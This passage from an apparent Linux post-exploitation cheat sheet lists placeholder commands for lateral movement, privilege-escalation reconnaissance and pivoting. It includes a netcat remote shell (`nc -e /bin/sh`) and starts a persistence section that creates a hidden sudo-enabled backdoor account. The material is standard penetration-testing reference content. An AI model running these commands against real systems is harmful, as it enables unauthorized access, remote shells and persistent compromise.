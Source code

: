 During lateral movement in a Linux system, various techniques and tools can be used, such as:

1. **Exploiting shared credentials:**
   - `ssh <target>`: Use compromised or weakly protected SSH credentials to gain unauthorized access to other systems within the network.
   - `su <username>`: Switch to another user account using compromised or shared credentials.
   - `sudo -u <username> <command>`: Execute a command with the privileges of another user.

2. **Exploiting trust relationships:**
   - `ping -c 1 <target>`: Check connectivity to other systems within the network.
   - `nmap -p- <target>`: Perform a port scan to identify open ports and potential targets for lateral movement.
   - `nc -z -v <target> <port>`: Test network connectivity to specific ports on remote systems.

3. **Remote command execution:**
   - `ssh <target> "<command>"`: Execute a command on a remote system using SSH.
   - `telnet <target> <port>`: Establish a telnet connection to a remote system and execute commands.
   - `nc -e /bin/sh <target> <port>`: Open a remote shell on a target system using netcat.

4. **Privilege escalation on new targets:**
   - `sudo -l`: List the available sudo privileges for the current user.
   - `find / -perm -4000 -type f 2>/dev/null`: Search for SUID binaries that can be exploited for privilege escalation.
   - `ps -ef | grep root`: Identify processes running with root privileges on the compromised system.

5. **Exploiting vulnerabilities on other systems:**
   - `searchsploit <vulnerability>`: Search the Exploit Database for known vulnerabilities and corresponding exploits.
   - `metasploit`: Launch the Metasploit Framework to leverage exploits for specific vulnerabilities.
   - `nmap --script vuln <target>`: Perform a vulnerability scan on the target system using Nmap.

6. **Pivoting through compromised hosts:**
   - `ssh -D <localport> <gateway>`: Create a dynamic SSH tunnel to use the compromised system as a proxy for accessing other systems.
   - `proxychains <command>`: Run a command through a proxy server to access systems behind the compromised host.

## Persistence

 Persistence in post-exploitation refers to the ability of a hacker to maintain access and control over a compromised Linux system even after a reboot or system updates. It involves establishing mechanisms or backdoors that allow the hacker to regain access to the system without going through the initial exploitation process again.

The objective of persistence is to ensure that the hacker can maintain a long-term presence and control over the compromised system, facilitating continued exploitation or further attacks on the network. It involves techniques that enable the hacker to maintain stealth, avoid detection, and ensure persistent access.

Some common techniques used for persistence in Linux systems include:

1. **Backdoors:**
   - Create a hidden user account:

     ```
     sudo useradd -m -G sudo -s /bin/bash <username>
     sudo passwd <username>
     ```
